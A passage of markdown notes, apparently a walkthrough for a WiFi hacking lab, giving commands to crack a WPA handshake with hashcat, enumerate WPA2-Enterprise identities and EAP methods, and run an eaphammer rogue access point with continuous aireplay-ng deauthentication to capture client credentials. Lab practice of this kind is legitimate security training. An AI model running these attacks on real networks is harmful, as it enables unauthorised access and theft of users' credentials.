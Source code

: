    ```
9. Crack the wifi password ``` sudo hashcat -a 0 -m 22000 password.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```
10. prep wpa3saepsk.conf
   ```
    network={
        ssid="wifi-management"
        psk=""
        key_mgmt=SAE
        scan_ssid=1
    }

   ```
11. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c  wpa3saepsk.conf```
12. ``` sudo dhclient wlan3 -v ```

## WPA 2 MGT (Recon stage)
### Check domain name of this AP
- https://github.com/r4ulcl/wifi_db
1. Choose channel to listen and dump pcap ``` airodump-ng wlan0mon -w ./scanc44 -c 44 --wps ```
2. ```cd /home/kali/Downloads/wifi-tools/wifi_db```
3. choose the kasmite file name for last param ``` python3 wifi_db.py -d wifichallenge.SQLITE /home/user/newwifi/scanc44-01 ```
4. Browse ``` sqlitebrowser wifichallenge.SQLITE ``` and go "browse data" tab, change table to IdentityAP

### Get email address of server cert
- https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2
1. ```cd /home/kali/Downloads/wifi-tools/pcap_filter```
2. ``` bash pcapFilter.sh -f /home/user/newwifi/scanc44-01.cap -C ```
3. Find Certificate: Subject --> last value

### Check EAP method 
- banned
- https://github.com/blackarrowsec/EAP_buster
1. ``` cd /home/kali/Downloads/wifi-tools/EAP_buster/ ```
2. using tool wifi_db to check users in this network (Table: IdentityAP)
   
   【OR] use the name found in there then ``` bash ./EAP_buster.sh $SSID 'GLOBAL\GlobalAdmin' wlan1 ```

## WPA 2 MGT - (Deauth attack) 
- Attack and Crack Client password to login as that user 
- banned
- ``` git clone https://github.com/s0lst1c3/eaphammer ```
1. ``` cd /home/kali/Downloads/wifi-tools/eaphammer ```
2. ``` python3 ./eaphammer --cert-wizard``` random fill something
3. *** Start rogue AP ``` python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced ```
4. Gather all possible AP BSSID instance of this ESSID
5. [in parallel another terminal] 
   ```
   // for loop create terminal for below
        airmon-ng start wlan0
        iwconfig wlan0mon channel 8964
        aireplay-ng -0 0 -a $BSSID1 wlan0mon -c $StationID
